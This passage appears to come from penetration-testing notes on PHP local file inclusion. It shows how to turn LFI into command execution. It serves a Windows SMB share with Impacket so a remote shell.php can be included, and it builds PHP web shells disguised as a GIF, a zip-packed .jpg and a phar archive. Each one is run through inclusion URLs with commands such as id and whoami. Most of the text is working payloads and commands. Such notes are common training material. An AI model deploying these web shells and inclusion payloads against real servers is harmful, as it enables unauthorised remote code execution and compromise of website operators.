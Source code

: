 If the server is a Windows, we don't need `allow_url_include` to be allowed, as we can use the SMB protocol. First, start a server with **Impacket**:
```console
zero@pio$ impacket-smbserver -smb2support share $(pwd)
```

And then:
```
http://<ip>/index.php?language=\\<your ip>\shell.php&cmd=whoami
```

## File Uploads 

### GIF 

Start creating a malicious image:
```console
zero@pio$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

> We are using a GIF image in this case since its magic bytes are easily typed, as they are ASCII characters
{: .prompt-tip}

Now we upload the image and get the path, the HTML code can have it (also we can fuzz):
```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

And execute it:
```
http://<ip>/index.php?language=./profile_images/shell.gif&cmd=id
```

### ZIP

Let's start with an image called `shell.jpg`.
```console
zero@pio$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

Now, use the **zip** wrapper:
```
http://<ip>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id 
```

### Phar 

We can achieve the same with the **phar** wrapper. Let's create the shell as the following:
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
